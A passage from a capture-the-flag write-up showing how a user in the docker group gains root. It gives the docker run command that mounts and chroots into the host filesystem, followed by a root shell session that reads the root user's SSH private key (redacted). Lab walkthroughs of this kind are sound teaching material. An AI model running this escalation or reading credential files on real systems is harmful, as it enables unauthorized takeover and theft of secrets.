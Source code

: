 There's no user flag in this room, only a root flag. So let's start thinking of ways to escalate to root.

I tried a different ways to try to escalate to root, however they all failed, until I remembered that my current account has access to `docker` group.

Further search led me to this page on [GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell). With a little tweak, we came out with the following.

```
$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

Upon trying the docker command, I successfully managed to get a root shell and retrieve the private RSA key.

```
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# cd /root
# cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
[REDACTED]
-----END RSA PRIVATE KEY-----
```
